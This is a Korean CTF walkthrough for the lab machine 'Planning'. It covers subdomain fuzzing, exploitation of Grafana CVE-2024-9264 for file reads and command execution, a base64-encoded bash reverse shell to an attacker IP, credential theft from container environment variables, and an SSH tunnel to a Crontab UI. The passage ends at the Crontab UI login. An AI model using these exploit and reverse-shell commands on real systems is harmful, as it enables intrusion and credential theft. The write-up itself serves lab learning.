# Planning

## Overview

온라인 교육 플랫폼을 위장한 PHP 기반 웹 서비스에서 동작하는 Linux 머신이다. 공격 체인은 다음과 같다. ffuf 서브도메인 열거로 내부에서 동작하는 Grafana 인스턴스를 식별하고, CVE-2024-9264를 통해 DuckDB SQL Expressions의 입력값 미검증을 악용하여 LFI 및 RCE를 달성한다. Grafana Docker 컨테이너의 환경변수에서 호스트 유저 `enzo`의 크리덴셜을 탈취하여 SSH 접속 후 user 플래그를 획득한다. 이후 내부 포트 8000에서 동작하는 Crontab UI 서비스에 접근하여 root 권한으로 실행되는 크론잡을 악용, 리버스 쉘로 root 권한을 획득한다.

---

## Target Information

| 항목 | 내용 |
|------|------|
| 머신 이름 | Planning |
| OS | Ubuntu Linux |
| IP | 10.129.237.241 |
| 난이도 | Easy |
| 주요 취약점 | CVE-2024-9264 (Grafana DuckDB SQL Injection), Crontab UI 크론잡 조작 |
| 주요 기술 | 서브도메인 열거, LFI, RCE, 컨테이너 환경변수 탈취, SSH 포트 포워딩, 크론잡 기반 권한 상승 |

---

## Enumeration

### TCP Port Scan

```bash
nmap -sC -sV 10.129.237.241
```



열린 포트는 두 개다.

| 포트 | 서비스 | 버전 |
|------|--------|------|
| 22/tcp | SSH | OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 |
| 80/tcp | HTTP | nginx 1.24.0 (Ubuntu) |

HTTP 서버는 `http://planning.htb`로 리다이렉트한다. 로컬 DNS 설정이 필요하다.

```bash
echo "10.129.237.241 planning.htb" | sudo tee -a /etc/hosts
```

### Web Enumeration

`http://planning.htb`에 접속하면 Edukate라는 온라인 교육 플랫폼 홈페이지가 표시된다. Wappalyzer로 기술 스택을 분석하면 Nginx 1.24.0, Bootstrap 4.4.1, jQuery 3.4.1이 확인된다. 백엔드 기술 스택은 Wappalyzer에서 탐지되지 않는다.




gobuster로 디렉토리 및 파일을 열거한다.

```bash
gobuster dir \
  -u http://planning.htb \
  -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt \
  -t 50 \
  -x php,txt,bak
```

`index.php`가 200으로 응답하여 백엔드가 PHP임을 확인할 수 있다. 사이트에는 키워드 검색 기능과 문의 폼이 존재하며, Burp Suite로 검색 요청을 캡처하면 `POST /index.php`에 `keyword` 파라미터로 입력값이 전달되는 것이 확인된다. SQL Injection 및 입력값 기반 공격을 시도했으나 응답 차이가 없어 공격면이 없는 것으로 판단한다.

### Subdomain Enumeration

nginx가 vhost 기반으로 라우팅하는 구조이므로 서브도메인을 열거한다. 존재하지 않는 서브도메인에 대한 baseline 응답 크기가 178바이트임을 먼저 확인하고, `-fs 178` 옵션으로 노이즈를 필터링한다.

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt \
  -H "Host: FUZZ.planning.htb" \
  -u http://planning.htb \
  -c -fs 178
```



`grafana` 서브도메인이 302로 응답한다. `/etc/hosts`에 추가한다.

```bash
echo "10.129.237.241 grafana.planning.htb" | sudo tee -a /etc/hosts
```

---

## Initial Foothold

### Grafana 서비스 식별

`http://grafana.planning.htb`에 접속하면 Grafana 로그인 페이지가 표시된다. 페이지 하단과 API 응답에서 버전을 확인한다.

```bash
curl -s http://grafana.planning.htb/api/health
```

```json
{
  "commit": "83b9528bce85cf9371320f6d6e450916156da3f6",
  "database": "ok",
  "version": "11.0.0"
}
```



Grafana v11.0.0은 CVE-2024-9264의 취약 버전 범위(≥11.0.0, ≤11.0.6)에 해당한다. 머신 인포에서 제공된 크리덴셜 `admin / 0D5oT70Fq13EvB5r`로 로그인에 성공한다.

### CVE-2024-9264 — Grafana DuckDB SQL Injection

CVE-2024-9264는 Grafana의 SQL Expressions 실험적 기능에서 발생한다. 이 기능은 DuckDB 엔진을 사용하여 사용자 입력을 SQL 쿼리로 처리하는데, 입력값 검증이 충분하지 않아 임의 DuckDB 함수 실행이 가능하다. DuckDB는 `read_blob()` 함수로 파일시스템에 직접 접근할 수 있어 LFI가 발생하며, `shellfs` 확장을 통해 쉘 명령어 실행(RCE)까지 가능하다.



| 항목 | 내용 |
|------|------|
| CVE | CVE-2024-9264 |
| CVSS | 9.4 (Critical) |
| 영향 버전 | Grafana ≥11.0.0, ≤11.0.6 / ≥11.1.0, ≤11.1.7 / ≥11.2.0, ≤11.2.2 |
| 필요 권한 | VIEWER 이상 |
| 공격 유형 | LFI, Command Injection |

GitHub에서 공개된 PoC를 사용한다.

```bash
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip install -r requirements.txt --break-system-packages
```





먼저 LFI로 `/etc/passwd`를 읽어 공격 가능 여부를 검증한다.

```bash
python3 CVE-2024-9264.py http://grafana.planning.htb \
  --user admin \
  --password 0D5oT70Fq13EvB5r \
  --file /etc/passwd
```



`grafana:x:472:0::/home/grafana:/usr/sbin/nologin` — GID가 0(root 그룹)으로, Grafana가 Docker 컨테이너 안에서 root 그룹 권한으로 실행되고 있음을 확인할 수 있다.

다음으로 RCE를 검증한다.

```bash
python3 CVE-2024-9264.py http://grafana.planning.htb \
  --user admin \
  --password 0D5oT70Fq13EvB5r \
  --command "id"
```



내부적으로 실행되는 DuckDB 쿼리 구조는 다음과 같다.

```sql
SELECT 1;
install shellfs from community;
LOAD shellfs;
SELECT * FROM read_csv('id >/tmp/grafana_cmd_output 2>&1 |');
SELECT content FROM read_blob('/tmp/grafana_cmd_output');
```

`uid=0(root) gid=0(root) groups=0(root)` 응답으로 컨테이너 내부에서 root 권한으로 실행됨을 확인한다.

### 리버스 쉘 획득

쉘 명령어에 포함된 따옴표가 DuckDB 쿼리 파싱과 충돌하여 직접 입력이 불가능하다. Base64로 인코딩하여 우회한다.

```bash
echo 'bash -i >& /dev/tcp/10.10.15.55/4444 0>&1' | base64
# YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41NS80NDQ0IDA+JjEK
```

netcat 리스너를 열고 인코딩된 페이로드를 전달한다.

```bash
# 공격 머신
nc -lvnp 4444

# PoC 실행
python3 CVE-2024-9264.py http://grafana.planning.htb \
  --user admin \
  --password 0D5oT70Fq13EvB5r \
  -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41NS80NDQ0IDA+JjEK | base64 -d | bash"
```





`root@7ce659d667d7` — Grafana Docker 컨테이너 내부에 root로 진입했다. 호스트명의 해시값이 Docker 컨테이너 ID다.

### 환경변수에서 크리덴셜 탈취

컨테이너 환경변수를 덤프한다.

```bash
env
```



```
GF_SECURITY_ADMIN_USER=enzo
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
```

Docker 컨테이너 실행 시 `-e` 옵션으로 주입된 Grafana 관리자 크리덴셜이 환경변수에 평문으로 노출되어 있다. `enzo`라는 유저명이 호스트 머신의 계정과 동일하며 패스워드가 재사용될 가능성이 있다.

---

## Lateral Movement — Grafana Container → enzo

호스트 머신에 SSH 접속을 시도한다.

```bash
ssh enzo@10.129.237.241
# password: RioTecRANDEntANT!
```





`uid=1000(enzo) gid=1000(enzo) groups=1000(enzo)` — 호스트 머신에 `enzo`로 접속 성공했다. 크리덴셜이 재사용된 것을 확인할 수 있다.

```bash
find / -name "user.txt" 2>/dev/null
cat /home/enzo/user.txt
```



---

## Privilege Escalation — enzo → root

### 내부 서비스 열거

`sudo -l`로 sudo 권한을 확인하면 권한이 없다. 내부 포트를 열거한다.

```bash
ss -tlnp
```


외부에서 접근 불가능한 내부 포트가 여러 개 확인된다. 그 중 포트 8000이 주목할 만하다. 3000은 Grafana, 3306은 MySQL인 것을 감안하면 포트 8000은 미식별 서비스다.

```bash
curl -s -I http://127.0.0.1:8000
```

```
HTTP/1.1 401 Unauthorized
X-Powered-By: Express
WWW-Authenticate: Basic realm="Restricted Area"
```

Node.js Express 기반 서비스가 Basic 인증으로 보호되고 있다.

### Crontab DB에서 크리덴셜 탈취

시스템 파일을 탐색한다.

```bash
find /opt /srv /app /var/app /home -type f 2>/dev/null
```



`/opt/crontabs/crontab.db` 파일이 발견됐다.

```bash
cat /opt/crontabs/crontab.db
```





두 개의 크론잡이 JSON 형식으로 저장되어 있다.

```json
{"name":"Grafana backup","command":"/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz","schedule":"@daily"}
{"name":"Cleanup","command":"/root/scripts/cleanup.sh","schedule":"* * * * *"}
```

`Grafana backup` 크론잡의 zip 암호 `P4ssw0rdS0pRi0T3c`가 포트 8000 서비스의 Basic 인증 패스워드로 재사용될 가능성이 있다. `Cleanup` 크론잡은 `* * * * *` 스케줄로 1분마다 root 권한으로 `/root/scripts/cleanup.sh`를 실행한다.

```bash
curl -s -o /dev/null -w "%{http_code}" -u root:P4ssw0rdS0pRi0T3c http://127.0.0.1:8000
# 200
```

인증 성공을 확인한다.

### SSH 포트 포워딩으로 Crontab UI 접근

포트 8000은 내부 전용 서비스라 Kali 브라우저에서 직접 접근이 불가능하다. SSH 로컬 포트 포워딩으로 터널을 구성한다.

```bash
ssh enzo@planning.htb -L 8000:127.0.0.1:8000
```

이 명령은 SSH 접속을 유지하면서 Kali의 로컬 포트 8000을 타겟 머신 내부의 `127.0.0.1:8000`으로 포워딩한다. 이후 Kali 브라우저에서 `http://127.0.0.1:8000`에 접근하면 타겟 내부 서비스에 연결된다.



브라우저에서 `http://127.0.0.1:8000`에 접속하고 `root / P4ssw0rdS0pRi0T3c`로 로그인한다.

